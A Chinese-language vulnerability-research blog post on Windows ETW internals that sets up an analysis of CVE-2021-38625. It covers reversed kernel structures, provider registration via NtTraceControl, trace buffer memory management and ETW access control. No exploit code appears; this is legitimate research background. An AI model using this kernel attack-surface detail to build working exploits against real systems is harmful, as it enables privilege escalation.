## overview

笔者在对ETW进行研究过程中，发现了 [@YanZiShuang](https://x.com/YanZiShuang)  在21年挖的一个洞  [CVE-2021-38625 ](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38625)  有一篇文章[EtwpWriteUserEvent  integer overflow and  size double fetch](https://cn-sec.com/archives/1071995.html) 对这个漏洞的进行了分析，没有相关证据表明文章是作者写的。初步看上去，这个漏洞较为简单，root cause是分配的内存大小可控，造成整数溢出，后续发生越界写人。但笔者深入分析发现和文章中提到的稍有不同。

涉及到的知识点:  

1. **ETW内存管理机制**
2. **ETW访问控制** 
3. **NtTraceControl/NtTraceEvent** ETW相关的两个syscall  (在笔者分析ETW时，涉及另一个漏洞 CVE-2023-21536 作者对这两个syscall的作用有过详细描述，这里不多介绍。[herestub](https://jiwo.org/ken/detail.php?id=3260)   [here](https://dannyodler.hashnode.dev/racing-bugs-in-windows-kernel))

在正式开始之前，对于ETW机制扫盲请参考: 

1. [@Yarden Shafir](https://x.com/yarden_shafir) 这篇文章 [exploiting a simple vulnerability ](https://windows-internals.com/exploiting-a-simple-vulnerability-in-35-easy-steps-or-less/) (主要分析了ETW内核对象的结构体和彼此关系，这些符号将有助于我们对漏洞的理解)  
2. [Geoff Chappell ETW studies](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/secure/index.htm?tx=27,29,31,36,40,41,69;34)  (推荐)
3. [Event Tracing](https://learn.microsoft.com/en-us/windows/win32/etw/about-event-tracing)

言归正传。`CVE-2021-38625` 漏洞产生于server 2008 sp2系统上，笔者这里准备了两套环境

| OS                                        | version                      |
| ----------------------------------------- | ---------------------------- |
| Server 2008 R2 SP1                        | ntoskrnl.exe  6.1.7601.24384 |
| Server 2008 sp2          (存在漏洞的环境) | ntoskrnl.exe  6.0.6001.18000 |


## What you should know?

在 yardenshafir 和 geoff chappel 文章里面，应该清楚ETW 几种关键的结构体(内核态)

在开始分析漏洞之前，我们先了解下ETW相关内部结构表示，如何管理内存的，访问控制机制

### ETW_REG_ENTRY

`ETW_REG_ENTRY`  表示EtwRegistration 内核对象结构，与之对应的用户态结构 [ETW_REGISTRATION_ENTRY](https://www.geoffchappell.com/studies/windows/win32/ntdll/api/etw/evntsup/registration_entry.htm?tx=12)

```c
//0x48 bytes (sizeof)
struct _ETW_REPLY_QUEUE
{
    struct _KQUEUE Queue;                                                   //0x0
    LONG EventsLost;                                                        //0x40
}; 

//0x70 bytes (sizeof)
struct _ETW_REG_ENTRY
{
    struct _LIST_ENTRY RegList;                                             //0x0
    struct _LIST_ENTRY GroupRegList;                                        //0x10
    struct _ETW_GUID_ENTRY* GuidEntry;                                      //0x20
    struct _ETW_GUID_ENTRY* GroupEntry;                                     //0x28
    union
    {
        struct _ETW_REPLY_QUEUE* ReplyQueue;                                //0x30
        struct _ETW_QUEUE_ENTRY* ReplySlot[4];                              //0x30
        struct
        {
            VOID* Caller;                                                   //0x30
            ULONG SessionId;                                                //0x38
        };
    };
    union
    {
        struct _EPROCESS* Process;                                          //0x50
        VOID* CallbackContext;                                              //0x50
    };
    VOID* Callback;                                                         //0x58
    USHORT Index;                                                           //0x60
    union
    {
        USHORT Flags;                                                       //0x62
        struct
        {
            USHORT DbgKernelRegistration:1;                                 //0x62
            USHORT DbgUserRegistration:1;                                   //0x62
            USHORT DbgReplyRegistration:1;                                  //0x62
            USHORT DbgClassicRegistration:1;                                //0x62
            USHORT DbgSessionSpaceRegistration:1;                           //0x62
            USHORT DbgModernRegistration:1;                                 //0x62
            USHORT DbgClosed:1;                                             //0x62
            USHORT DbgInserted:1;                                           //0x62
            USHORT DbgWow64:1;                                              //0x62
            USHORT DbgUseDescriptorType:1;                                  //0x62
            USHORT DbgDropProviderTraits:1;                                 //0x62
        };
    };
    UCHAR EnableMask;                                                       //0x64
    UCHAR GroupEnableMask;                                                  //0x65
    struct _ETW_PROVIDER_TRAITS* Traits;                                    //0x68
}; 
```

用户态结构

```c
// 0xA0
typedef struct _ETW_REGISTER_GUID {
    GUID ProviderID;
    ETW_NOTIFICATION_TYPE Type;
    DWORD hThread;
    HANDLE EtwRegistration;         // kernel output
// 0x20
    void* Callback;
    void* unk1;
    BYTE Data[0x10];
    TRACE_ENABLE_INFO ProviderEnableInfo;
    ETW_LAST_ENABLE_INFO LastEnable;
    BYTE Data4[0x10];
    BYTE Data5[0x10];
    BYTE Data6[0x10];
}ETW_REGISTER_GUID,*PETW_REGISTER_GUID;

typedef ETW_REGISTER_GUID ETW_REGISTRATION_ENTRY;
```

那么用户态应该如何才能注册一个ETW Registration对象呢？内核创建ETWRegistration

在分析漏洞时需要 `ObReferenceObjectByHandle` 根据句柄解引用出 `EtwpRegistrationObjectType` 类型内核对象，但笔者刚开始不清楚如何创建这个对象，于是笔者通过交叉引用 `EtwpRegistrationObjectType` 关键信息审计了相关函数



`EtwpInitializeRegistration` 由 `EtwInitialize` 调用，通过 `ObCreateObjectTypeEx` 创建内核对象类型`EtwRegistrationObjectType` 

继续审计 发现 `NtTraceControl` 状态码为 `EtwRegisterGuidsCode` 调用了 `EtwpRegisterUMGuid`  用来注册用户模式GUID

`EtwpRegisterUMGuid`算法如下

1. 检查 `ETW_REGISTER_GUID` ProviderID  不等于 `SecurityProviderGUID`值为  `54849625-5478-4994-a5ba-3e3b0328c30d`，这是 [Microsoft-Windows-Security-Auditing](https://github.com/libyal/winevt-kb/blob/main/docs/sources/eventlog-providers/Provider-Microsoft-Windows-Security-Auditing.md)   Provider, 不需要重新注册
2. `EtwpFindGuidEntryByGuid` 通过 `ETW_REGISTER_GUID`提供的ProviderID 在获取 `EtwpGuidListLock`锁的前提下，从 `EtwpGuidListHead`链表头前向遍历查找，如果没有找到则调用 `EtwpAddGuidEntry`添加   核心逻辑:  `EtwpAddGuidEntry`--> `EtwpAllocGuidEntry` --> 链表插入
3. `EtwpAccessCheck` 执行 ETW_GUID_ENTRY  安全描述符检查
4. 检查通过 执行 `EtwpAddUmRegEntry` 用来根据 ETW_GUID_ENTRY 生成ETW_REG_ENTRY  EtwRegistration内核对象，并返回句柄，填充在 ETW_REGISTER_GUID 字段 `EtwRegistration`
5. 设置 `ETW_REGISTER_GUID`输出字段  `ProviderEnableInfo` `TRACE_ENABLE_INFO`信息
6. 检查 指定GUID Entry 是否开启Trace, 默认情况下 `EtwpAddGuidEntry`添加的ETW_GUID_ENTRY ProviderEnableInfo 没有开启Trace
7. 如果开启了 Trace, 根据ETW_GUID_ENTRY EnableInfo 首项中的LoggerID 从WmipLoggerContext 获取 WMI_LOGGER_CONTEXT








现在我们梳理下其注册Provider的过程:

`NtTraceControl` (EtwRegisterGuidsCode)  -->  `EtwRegisterUMGuid`   -->  `EtwpAddUmRegEntry` 

其通信协议就是 `ETW_REGISTRATION_ENTRY` ，内核创建后返回句柄填充。

现在我们分析下用户态是如何封装的？

有关UserMode Provider注册的本质  GeoffChappel给出了明确的定义    [here1](https://www.geoffchappell.com/studies/windows/win32/ntdll/api/etw/evntsup/registration_entry.htm?tx=12)   [here2](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/traceapi/control/registerumguid.htm)

> For a user-mode registration, the effect really is like opening a provider in that it produces an Object Manager handle to the underlying registration object

`Event Tracing`提供了API   `EventRegister`  `EventUnregister` 

首先这个api 由advapi32导出，我们简单逆向下看看

导出转发

EventRegister 实现在 `ntdll!EtwEventRegister` 

EventUnregister 实现在 `ntdll!EtwEventUnregister`



api 调用关系是  advapi32!EventRegister --> ntdll!EtwEventRegister --> ntdll!EtwNotificationRegister -->  ntdll!EtwpRegisterProvider

`EtwNotificationRegister`算法如下

1. 全局变量 `ntdll!EtwpRegistrationCount` 表示当前进程已注册的Provider数量
2. 检查当前数目是否大于0x800  默认注册不能超过0x800个Provider
3. `RtlAllocateHeap`默认堆分配 0x100内存
4. `EtwpRegisterProvider`   注册Provider  实际上通过 `NtTraceControl` `EtwRegisterGuidsCode` 0xf  注册Provider   (我们也可以直接使用syscall 绕过0x800的限制，但可能存在副作用)
5. 调用`EtwpInsertRegistration`将分配的内存地址注册到 `EtwpRegistrationTable`，调用`RtlRbInsertNodeEx`将内存地址插入到 `EtwpRegistrationTable` 红黑树中
6. REGHANDLE 结果是 条目地址和表索引的值左移 0x20得到的







现在我们可以得到一条完整的调用关系:

 advapi32!EventRegister --> ntdll!EtwEventRegister --> ntdll!EtwNotificationRegister -->  ntdll!EtwpRegisterProvider  --> `NtTraceControl` (EtwRegisterGuidsCode)  -->  `EtwRegisterUMGuid`   -->  `EtwpAddUmRegEntry` 

ETW是一套事件追踪框架，支持用户态程序注册，对于驱动肯定也支持。经过上面的分析我们已经发现 `EtwpRegisterProvider` 是一个关键的函数，内核也存在这个api  `nt!EtwpRegisterProvider`  核心算法大同小异

dig into `EtwpAddKmRegEntry`  ，它调用 `EtwpCreateKmRegEntry` 创建 `EtwpRegistrationObjectType` 内核对象



api相关流程：

`EtwRegister` -->    `EtwpRegisterProvider`  --> `EtwpAddKmRegEntry`   --> `EtwpCreateKmRegEntry` --> `ObCreateObject(EtwpRegistrationObjectType)`  

`EtwRegisterClassicProvider`  --> `EtwpRegisterProvider`  

有两个api调用 `EtwpRegisterProvider` ，这两个都从ntoskrnl导出以供其他内核代码使用


### ETW_GUID_ENTRY

```c
//0x190 bytes (sizeof)
struct _ETW_GUID_ENTRY
{
    struct _LIST_ENTRY GuidList;                                            //0x0
    volatile LONGLONG RefCount;                                             //0x10
    //  Provider  GUID
    struct _GUID Guid;                                                      //0x18
    struct _LIST_ENTRY RegListHead;                                         //0x28
    VOID* SecurityDescriptor;                                               //0x38
    union
    {
        struct _ETW_LAST_ENABLE_INFO LastEnable;                            //0x40
        ULONGLONG MatchId;                                                  //0x40
    };
    struct _TRACE_ENABLE_INFO ProviderEnableInfo;                           //0x50
    struct _TRACE_ENABLE_INFO EnableInfo[8];                                //0x70
    struct _ETW_FILTER_HEADER* FilterData;                                  //0x170
    struct _ETW_SILODRIVERSTATE* SiloState;                                 //0x178
    struct _EX_PUSH_LOCK Lock;                                              //0x180
    struct _ETHREAD* LockOwner;                                             //0x188
}; 
```

注册的每一个Etw Provider 都由 `_ETW_REG_ENTRY` 表示，其成员字段 GuidEntry 和 GroupEntry 标识独一无二的Provider

两者的类型都是 `ETW_GUID_ENTRY`  从成员字段来看，是对GUID结构的丰富化，每种ETW Provider需要支持访问控制；Relation组相关关系 ([Provider and ProviderGroup](https://gist.github.com/mattifestation/04e8299d8bc97ef825affe733310f7bd/))；Tracing相关信息等

`TRACE_ENABLE_INFO` 

```c
//0x20 bytes (sizeof)
struct _TRACE_ENABLE_INFO
{
    ULONG IsEnabled;                                                        //0x0
    // 事件中的详细级别
    UCHAR Level;                                                            //0x4
    UCHAR Reserved1;                                                        //0x5
    // 标识启用Provider的会话
    USHORT LoggerId;                                                        //0x6
    // 会话希望ETW包含在日志文件中的其他信息
    ULONG EnableProperty;                                                   //0x8
    ULONG Reserved2;                                                        //0xc
    ULONGLONG MatchAnyKeyword;                                              //0x10
    ULONGLONG MatchAllKeyword;                                              //0x18
}; 
```

`ETW_FILTER_HEADER`  

注册的每个Provider 支持多种事件类型，这将会产生大量的事件，`_ETW_GUID_ENTRY` 字段 `FilterData` 

win8.1 开始内置了以下几种 filter   [ETW_FILTER_HEADER](https://www.vergiliusproject.com/kernels/x64/windows-8.1/update-1/_ETW_FILTER_HEADER)

```c
//0x48 bytes (sizeof)
struct _ETW_FILTER_HEADER
{
    LONG FilterFlags;                                                       //0x0
    struct _ETW_FILTER_PID* PidFilter;                                      //0x8
    struct _ETW_FILTER_STRING_TOKEN* ExeFilter;                             //0x10
    struct _ETW_FILTER_STRING_TOKEN* PkgIdFilter;                           //0x18
    struct _ETW_FILTER_STRING_TOKEN* PkgAppIdFilter;                        //0x20
    struct _ETW_PERFECT_HASH_FUNCTION* StackWalkFilter;                     //0x28
    struct _ETW_PERFECT_HASH_FUNCTION* EventIdFilter;                       //0x30
    struct _ETW_PAYLOAD_FILTER* PayloadFilter;                              //0x38
    struct _EVENT_FILTER_HEADER* ProviderSideFilter;                        //0x40
};
```


### WMI_LOGGER_CONTEXT

`WMI_LOGGER_CONTEXT` 是和Tracing 功能相关的结构，每一个tracing会话在内核都由此结构表示。

> logman -ets   查看数据收集器

其中比较重要的几个字段

LoggerID

MaximumEventSize   最大事件大小，漏洞分析过程中和ETW内存分配函数 `EtwpReserveTraceBuffer` 相关

NBQHead  和 OverflowNBQHead  和内存分配相关的两个链表

LoggerName  标识当前Logger名称

LogFileName  本地文件路径，ETW Tracing功能支持实时消费，也支持写入文件以供  EventView查看

InstanceGuid  标识当前Logger Instance  (ETW支持用户注册自己的Logger [StartTrace](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracea) )

```c
//0x330 bytes (sizeof)
struct _WMI_LOGGER_CONTEXT
{
    ULONG LoggerId;                                                         //0x0
    ULONG BufferSize;                                                       //0x4
    ULONG MaximumEventSize;                                                 //0x8
    LONG CollectionOn;                                                      //0xc
    ULONG LoggerMode;                                                       //0x10
    LONG AcceptNewEvents;                                                   //0x14
    LONGLONG (*GetCpuClock)();                                              //0x18
    union _LARGE_INTEGER StartTime;                                         //0x20
    VOID* LogFileHandle;                                                    //0x28
    struct _ETHREAD* LoggerThread;                                          //0x30
    LONG LoggerStatus;                                                      //0x38
    VOID* NBQHead;                                                          //0x40
    VOID* OverflowNBQHead;                                                  //0x48
    union _SLIST_HEADER QueueBlockFreeList;                                 //0x50
    struct _LIST_ENTRY GlobalList;                                          //0x60
    union
    {
        struct _WMI_BUFFER_HEADER* BatchedBufferList;                       //0x70
        struct _EX_FAST_REF CurrentBuffer;                                  //0x70
    };
    struct _UNICODE_STRING LoggerName;                                      //0x78
    struct _UNICODE_STRING LogFileName;                                     //0x88
    struct _UNICODE_STRING LogFilePattern;                                  //0x98
    struct _UNICODE_STRING NewLogFileName;                                  //0xa8
    ULONG ClockType;                                                        //0xb8
    ULONG MaximumFileSize;                                                  //0xbc
    ULONG LastFlushedBuffer;                                                //0xc0
    ULONG FlushTimer;                                                       //0xc4
    ULONG FlushThreshold;                                                   //0xc8
    union _LARGE_INTEGER ByteOffset;                                        //0xd0
    ULONG MinimumBuffers;                                                   //0xd8
    volatile LONG BuffersAvailable;                                         //0xdc
    volatile LONG NumberOfBuffers;                                          //0xe0
    ULONG MaximumBuffers;                                                   //0xe4
    volatile ULONG EventsLost;                                              //0xe8
    ULONG BuffersWritten;                                                   //0xec
    ULONG LogBuffersLost;                                                   //0xf0
    ULONG RealTimeBuffersDelivered;                                         //0xf4
    ULONG RealTimeBuffersLost;                                              //0xf8
    LONG* SequencePtr;                                                      //0x100
    ULONG LocalSequence;                                                    //0x108
    struct _GUID InstanceGuid;                                              //0x10c
    LONG FileCounter;                                                       //0x11c
    VOID (* volatileBufferCallback)(struct _WMI_BUFFER_HEADER* arg1, VOID* arg2); //0x120
    enum _POOL_TYPE PoolType;                                               //0x128
    struct _ETW_REF_CLOCK ReferenceTime;                                    //0x130
    struct _LIST_ENTRY Consumers;                                           //0x140
    ULONG NumConsumers;                                                     //0x150
    struct _ETW_REALTIME_CONSUMER* TransitionConsumer;                      //0x158
    VOID* RealtimeLogfileHandle;                                            //0x160
    struct _UNICODE_STRING RealtimeLogfileName;                             //0x168
    union _LARGE_INTEGER RealtimeWriteOffset;                               //0x178
    union _LARGE_INTEGER RealtimeReadOffset;                                //0x180
    union _LARGE_INTEGER RealtimeLogfileSize;                               //0x188
    ULONGLONG RealtimeLogfileUsage;                                         //0x190
    ULONGLONG RealtimeMaximumFileSize;                                      //0x198
    ULONG RealtimeBuffersSaved;                                             //0x1a0
    struct _ETW_REF_CLOCK RealtimeReferenceTime;                            //0x1a8
    enum _ETW_RT_EVENT_LOSS NewRTEventsLost;                                //0x1b8
    struct _KEVENT LoggerEvent;                                             //0x1c0
    struct _KEVENT FlushEvent;                                              //0x1d8
    struct _KTIMER FlushTimeOutTimer;                                       //0x1f0
    struct _KDPC FlushDpc;                                                  //0x230
    struct _KMUTANT LoggerMutex;                                            //0x270
    struct _EX_PUSH_LOCK LoggerLock;                                        //0x2a8
    union
    {
        ULONGLONG BufferListSpinLock;                                       //0x2b0
        struct _EX_PUSH_LOCK BufferListPushLock;                            //0x2b0
    };
    struct _SECURITY_CLIENT_CONTEXT ClientSecurityContext;                  //0x2b8
    struct _EX_FAST_REF SecurityDescriptor;                                 //0x300
    LONGLONG BufferSequenceNumber;                                          //0x308
    union
    {
        ULONG Flags;                                                        //0x310
        struct
        {
            ULONG Persistent:1;                                             //0x310
            ULONG AutoLogger:1;                                             //0x310
            ULONG FsReady:1;                                                //0x310
            ULONG RealTime:1;                                               //0x310
            ULONG Wow:1;                                                    //0x310
            ULONG KernelTrace:1;                                            //0x310
            ULONG NoMoreEnable:1;                                           //0x310
            ULONG StackTracing:1;                                           //0x310
            ULONG ErrorLogged:1;                                            //0x310
            ULONG RealtimeLoggerContextFreed:1;                             //0x310
        };
    };
    union
    {
        ULONG RequestFlag;                                                  //0x314
        struct
        {
            ULONG RequestNewFie:1;                                          //0x314
            ULONG RequestUpdateFile:1;                                      //0x314
            ULONG RequestFlush:1;                                           //0x314
            ULONG RequestDisableRealtime:1;                                 //0x314
            ULONG RequestDisconnectConsumer:1;                              //0x314
            ULONG RequestConnectConsumer:1;                                 //0x314
        };
    };
    struct _RTL_BITMAP HookIdMap;                                           //0x318
}; 
```

[StartTrace](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracea)  函数创建一个ETW Session，在内核会创建WMI_LOGGER_CONTEXT

> StartTrace
> Only users with administrative privileges, users in the Performance Log Users group, and services running as LocalSystem, LocalService, NetworkService can control event tracing sessions.

> Prior to Windows 10, version 1709, this is a fixed cap of 64 loggers for non-private loggers.

现在我们对WMI Logger继续深入分析

ETW 使用全局变量 `nt!WmipLoggerContext` 存储Logger session

`EtwInitialize`初始化全部为1，容量为 0x40


ETW 支持注册GUID到 `WmipLoggerContext` [here](https://www.anquanke.com/post/id/255916#h3-6)  初始值占位为1

`EtwpStartLogger`  注册 `WmiLoggerContext` 新的Trace Session,  实现逻辑是：

调用`EtwpInitLoggerContext` 根据Loggername 初始化Logger context



初始化返回上下文对象，loggerid未知，MaximumEventSize 0x10000,  BufferSize为 0x10000  后续内存分配时会用到



后续设置 MaximumEventSize  最大为0xffff


还会调用 `EtwpInitializeLoggerSecurityDescriptor` 设置Logger的 安全描述符

其他字段不在此赘述。

### Memory Management

现在我们来看下 ETW 内存管理，反映在WMI_LOGGER_CONTEXT 是字段NBQHead  和 OverflowNBQHead

```
EtwpQueueBlockFreeList
EtwpBufferAdjustmentActive

_WORK_QUEUE_ITEM EtwpAdjustBuffersWorkItem 
EtwpAllocateFreeBuffers
EtwpEnqueueFreeBuffer	//	(将freebuffer 入队到队列中 管理地址)
EtwpDequeneFreeBuffer		(从队列中获取地址)
EtwpAdjustFreeBuffers   // adjust 扩容
EtwpReserveTraceBuffer
EtwpAllocateTraceBufferPool
EtwpFreeTraceBufferPool
EtwpSwitchBuffer
EtwpAdjustTraceBuffers
EtwpAdjustBuffersDpcRoutine
EtwpAdjustBuffersDpc
EtwpPrepareDirtyBuffer    (入队)
EtwpInitializeBufferHeader
EtwpResetBufferHeader
EtwpRealtimeInjectEtwBuffer
```

根据函数名称和变量名大致可以猜到： ETW初始化时分配一篇池内存，`EtwpQueueBlockFreeList` 全局队列，通过 `EtwpEnqueueFreeBuffer`  `EtwpDequeneFreeBuffer`  `EtwpAllocateFreeBuffers` 操作内存

并且Adjust表明支持动态调整内存容量

cve-2021-38635漏洞出现在 `EtwpReserveTraceBuffer` 

#### EtwpQueueBlockFreeList

`EtwInitialize`  初始化 `EtwpQueueBlockFreeList` 全局变量单链表，大小是0x2000  'EtwQ' 非分页池内存



#### EtwpAllocateTraceBufferPool

第二个关键函数是 `EtwpAllocateTraceBufferPool`  

在 `EtwInitialize`初始化时，会通过 `EtwpStartTrace` 执行 `EtwpInitLoggerContext`

然后会为 wmi logger context 分配 trace buffer pool




`EtwpAllocateTraceBufferPool`算法如下：

1. 从 `EtwpQueueBlockFreeList`中获取值，如果为空，则分配 0x20 `EtwQ` NonPagedPool内存
2. 将结果插入 logcontext `QueueBlockFreeList`单链表上
3. `ExInitializeNBQueueHead`将 logcontext `QueueBlockFreeList` 入队，并将队列返回的地址存储在logcontext **NBQHead**字段
4. 检查Log context LoggerMode字段，重复上述逻辑，只是将队列返回的地址存储在 logcontext **OverflowNBQHead**字段
5. 确定buffer MinimimBuffers，调用`EtwpAllocateFreeBuffers` 





#### EtwpAllocateFreeBuffers

函数原型:

```c
__int64 __fastcall EtwpAllocateFreeBuffers
	(_WMI_LOGGER_CONTEXT *StartContext, unsigned int NumberOfBuffers);
```

分配内存过程取决于 StartContext参数

其算法如下：

1. 只要 StartContext  NumberOfBuffers  <=  MaximumBuffers 持续循环

2. 分配 0x20  'EtwQ' NonPagedPool内存  将其插入到 `QueueBlockFreeList`中

3. 根据StartContext  PoolType，BufferSize 分配内存（WMI_LOGGER_CONTEXT PoolType为非分页池内存，默认BufferSize为 0x10000）

4. `EtwpInitializeBufferHeader`  初始化刚刚分配的BufferHeader   类型疑似 [WMI_BUFFER_HEADER](https://www.vergiliusproject.com/kernels/x64/windows-11/insider-preview-jun-2021/_WMI_BUFFER_HEADER)

5.  `EtwpEnqueueFreeBuffer` 将初始化后的池地址入队  核心代码就是将池地址以尾插法放在 StartContext NBQHead中

   




#### EtwpDequeueFreeBuffer

那么何时使用内存呢？后面调试 `EtwpReserveTraceBuffer` 分配内存时会产生如下信息

```
00 nt!EtwpDequeueFreeBuffer
01 nt!EtwpSwitchBuffer
02 nt!EtwpReserveTraceBuffer
03 nt!EtwpWriteUserEvent
04 nt!NtTraceEvent
```

ETW内部调用 `EtwpSwitchBuffer` 从队列中获取之前已经分配的Buffer,这种内存管理机制避免了频繁分配，释放（ETW自身的性能也是不错的）

出队后的Buffer, 首先是`WMI_BUFFER_HEADER`  包含了BufferSize,  数据区的偏移



`ETW_BUFFER_CONTEXT`  包含补充信息，当前 `ETW_BUFFER` 所属的CPU号，LoggerID信息

```c
//0x4 bytes (sizeof)
struct _ETW_BUFFER_CONTEXT
{
    union
    {
        struct
        {
            UCHAR ProcessorNumber;                                          //0x0
            UCHAR Alignment;                                                //0x1
        };
        USHORT ProcessorIndex;                                              //0x0
    };
    USHORT LoggerId;                                                        //0x2
}; 
```

### Event Access Control

现在让我们看下ETW的访问控制实现

#### EtwpInitializeSecurity

`EtwpInitializeSecurity` 初始化ETW安全功能

1. 初始化全局句柄 `EtwpSecurityKeyHandle` 注册表路径 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\WMI\Security`  后续根据GUID查询 SD
2. 使用 `DefaultTraceSecurityGuid` 特殊的GUID  `0811c1af-7a07-4a06-82ed-869455cdf713`  [WMI Security](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/secure/index.htm)    初始化 `EtwpDefaultTraceSecurityDescriptor`
3. 如果 `EtwpDefaultTraceSecurityDescriptor`没有初始化，则使用 `WmipDefaultAccessSd` (WMI 时期的SD，旧版兼容性 08 r2 sp1)




一般地，访问控制检查调用链如下

`EtwpCheckCurrentUserGuidAccess` --> `EtwpCheckGuidAccess` --> `EtwpGetSecurityDescriptorByGuid` --> `EtwpGetGuidSecurityDescriptor`  根据GUID 查找SD，否则使用默认ETW 安全描述符 `EtwpDefaultTraceSecurityDescriptor`

#### ETW Access Rights

完整的权限参考  [ETW Security](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/secure/index.htm)

每个 providers 和 tracing sessions 都期望有持久化的安全描述符，内核能够根据谁访问决定是否授权

具体符号可在 **wmistr.h**中找到

ETW的 Access Rights 从WMI中而来（历史关系）

ETW 安全描述符存储在注册表中  `EtwpInitializeSecurity`前面已分析过了

```c
// EventAccessControl
enum ETW_ACCESSRIGHTS
{
    WMIGUID_QUERY 				= 0x0001,
    WMIGUID_SET					= 0x0002,
    WMIGUID_NOTIFICATION		= 0x0004,
    WMIGUID_READ_DESCRIPTION	= 0x0008,
    WMIGUID_EXECUTE				= 0x0010,
    TRACELOG_CREATE_REALTIME	= 0x0020,
    TRACELOG_CREATE_ONDISK		= 0x0040,
    TRACELOG_GUID_ENABLE		= 0x0080,
    TRACELOG_ACCESS_KERNEL_LOGGER = 0x0100,
    TRACELOG_LOG_EVENT			= 0x0200,
    TRACELOG_ACCESS_REALTIME	= 0x0400,
    TRACELOG_REGISTER_GUIDS		= 0x0800,
    TRACELOG_JOIN_GROUP			= 0x1000,
    WMIGUID_ALL_ACCESS_50		= 0x000207FF，
    WMIGUID_ALL_ACCESS_51_1511	= 0x00120FFF，
    WMIGUID_ALL_ACCESS			= 0x00121FFF，
};
```

现在我们清楚了 ETW Access Rights， 我们可以符号化  `EtwpDefaultTraceSecurityDescriptor`

比如我们可以通过 [james forshaw](https://x.com/tiraniddo)   [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/Cmdlets/Object/GetNtAccessMaskCmdlet.cs#L328)  `Get-NtAccessMask`  检索一个句柄拥有的Access Rights   

```
Get-NtAccessMask -AccessMask 0xF01FF -AsSpecificAccess Thread
Terminate, SuspendResume, Alert, GetContext, SetContext, SetInformation, QueryInformation, SetThreadToken, Impersonate, Delete, ReadControl, WriteDac, WriteOwner
```

只是可惜工具没有对`EtwRegistration` 匿名对象的支持

[@zodiacon](https://twitter.com/zodiacon)  写的工具 [AccessMask](https://github.com/zodiacon/AccessMask/blob/master/AccessMask.cpp#L1) 也没有支持，不过我们可以自己编写一个解析工具来完成这件事。

```
PS> Get-AccessRights -AccessMask 0x1ffff -Type EtwRegistration
WMIGUID_QUERY
WMIGUID_SET
WMIGUID_NOTIFICATION
WMIGUID_READ_DESCRIPTION
WMIGUID_EXECUTE
TRACELOG_CREATE_REALTIME
TRACELOG_CREATE_ONDISK
TRACELOG_GUID_ENABLE
TRACELOG_ACCESS_KERNEL_LOGGER
TRACELOG_LOG_EVENT
TRACELOG_ACCESS_REALTIME
TRACELOG_REGISTER_GUIDS
TRACELOG_JOIN_GROUP
```

然后我们就可以得到 默认`EtwpDefaultTraceSecurityDescriptor` 中DACL 各组ACE信息

注意 `Performance Log Users` 这个特殊组，**在操作ETW上下文中，基本上等同于管理员**。

| User or Group                                                | Access Rights                                                | Versions        |
| ------------------------------------------------------------ | ------------------------------------------------------------ | --------------- |
| localhost\Everyone                                           | **TRACELOG_REGISTER_GUIDS**                                  | 6.0 and higher  |
| **TRACELOG_JOIN_GROUP**                                      | 1607 and higher                                              |                 |
| NT AUTHORITY\SYSTEM NT AUTHORITY\LOCAL SERVICE NT AUTHORITY\NETWORK SERVICE BUILTIN\Administrators | **WMIGUID_ALL_ACCESS**                                       | 6.0 to 1511     |
| **WMIGUID_ALL_ACCESS** without **TRACELOG_JOIN_GROUP**       | 1607 and higher                                              |                 |
| BUILTIN\Performance Log Users                                | **WMIGUID_QUERY**; **WMIGUID_NOTIFICATION**; **TRACELOG_CREATE_REALTIME**; **TRACELOG_CREATE_ONDISK**; **TRACELOG_GUID_ENABLE**; **TRACELOG_LOG_EVENT**; **TRACELOG_ACCESS_REALTIME**; **TRACELOG_REGISTER_GUIDS** | 6.0 and higher  |
| BUILTIN\Performance Monitor Users                            | **WMIGUID_NOTIFICATION**                                     | 6.1 and higher  |
| APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES       | **TRACELOG_REGISTER_GUIDS**                                  | 6.2 and higher  |
| **TRACELOG_JOIN_GROUP**                                      | 1607 and higher                                              |                 |
| known only by SID, see note below                            | **TRACELOG_REGISTER_GUIDS**; **TRACELOG_JOIN_GROUP**         | 1703 and higher |


#### **Performance Log Users group**

在笔者对这个安全组进行分析过程中也发现了很有意思的事情。参考 [EventAccessControl](https://learn.microsoft.com/en-us/windows/win32/api/evntcons/nf-evntcons-eventaccesscontrol)     [here](https://x.com/tiraniddo/status/1098963946785202176)

<del>站在设计人员视角，</del> 我们可以考虑下ETW这个复杂庞大的平台，其访问控制需要满足哪些需求呢？

笔者在之前文章中 [UI State Store and Restore](https://bopin.me/posts/DiffClient_State_Restore/)  已经有过介绍，功能的设计取决于实际需求。

ETW 需要完成以下需求的实现

1. 访问控制 trace session   (只有管理员权限，system 可以启动和控制  `NT Kernel Logger Session`)
2. 授权受限制用户可以控制 trace sessions  可以添加到 `Performance Log Users group` 或者调用 `EventAccessControl` 更改trace session 指定ACL  （授权用户A 启动和停止 trace session, 授权用户B 仅仅查询session）
3. 为了授权谁可以在session中写入事件， 使用 `TRACELOG_LOG_EVENT`权限
4. log file ACL 决定了谁可以从日志文件中消费事件数据，从实时session中消费事件，授权用户 `TRACELOG_ACCESS_REALTIME` 或者 用户必须属于 `Performance Log Users group` 

结合上面 ETW Access Rights， `Performance Log Users` 组对这种访问控制进行模板化操作，减少了不同Provider 各自配置Access Rights的复杂性。 

[StartTrace](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracea)  函数创建一个ETW Session，在内核会创建WMI_LOGGER_CONTEXT

> Only users with administrative privileges, users in the Performance Log Users group, and services running as LocalSystem, LocalService, NetworkService can control event tracing sessions.

换句话说，在 `Performance Log Users`组的用户可以启动和停止 tracing session.

> Prior to Windows 10, version 1709, this is a fixed cap of 64 loggers for non-private loggers.

[Performance Log Users](https://github.com/MicrosoftDocs/windowsserverdocs/blob/main/WindowsServerDocs/identity/ad-ds/manage/understand-security-groups.md#performance-log-users)  这个组的使用者拥有创建和修改事件收集器的许可证

